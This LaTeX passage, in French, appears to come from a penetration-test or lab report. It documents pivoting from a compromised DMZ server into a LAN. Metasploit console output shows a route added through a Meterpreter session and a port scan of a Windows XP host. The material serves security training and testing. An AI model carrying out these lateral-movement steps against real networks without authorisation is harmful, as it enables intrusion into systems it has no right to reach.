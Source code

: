 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
\textbf{Observation Importante :} Le serveur DMZ dispose d'une interface Docker, suggérant que des conteneurs applicatifs supplémentaires s'exécutent (potentiellement vulnérables).

\section{Pivoting vers le LAN}

La présence du serveur DMZ compromis offre une opportunité cruciale : elle dispose d'une \textit{visibilité} sur le réseau LAN (adresse gateway 192.168.20.1 accessible depuis la DMZ). En utilisant le serveur DMZ comme \textbf{point de pivot}, l'attaquant peut accéder à des ressources (Windows XP, serveurs de base de données) initialement inaccessibles depuis le WAN externe.

\subsection{Configuration du Pivot Metasploit}

Une route statique est ajoutée au framework Metasploit :

\begin{lstlisting}[caption=Ajout d'une route vers le LAN via la session DMZ]
		(Meterpreter 1)(/tmp) > background
		[*] Backgrounding session 1...
		
		[msf] exploit(multi/handler)> route add 192.168.20.0/24 2
		[*] Route added
		
		[msf] exploit(multi/handler)> route print
		
		IPv4 Active Routing Table
		=========================
		
		Subnet             Netmask            Gateway
		------             -------            -------
		192.168.20.0       255.255.255.0      Session 2
	\end{lstlisting}

\textcolor{success}{\checkmark} \textbf{Pivot Configuré} : tout trafic Metasploit vers 192.168.20.0/24 est routé via la session DMZ.

\subsection{Reconnaissance Latérale : Scan du Réseau LAN}

Avec le pivot en place, un scan de ports peut être exécuté sur la cible secondaire (Windows XP) :

\begin{lstlisting}[caption=Scan de ports via Metasploit (via le pivot)]
		[msf]> use auxiliary/scanner/portscan/tcp
		[msf] auxiliary(scanner/portscan/tcp)> set RHOSTS 192.168.20.50
		RHOSTS => 192.168.20.50
		[msf] auxiliary(scanner/portscan/tcp)> set PORTS 135,139,445,3389
		PORTS => 135,139,445,3389
		[msf] auxiliary(scanner/portscan/tcp)> run
		
		[+] 192.168.20.50 - 192.168.20.50:445 - TCP OPEN
		[*] Scanned 1 of 1 hosts (100% complete)
	\end{lstlisting}
\end{document}
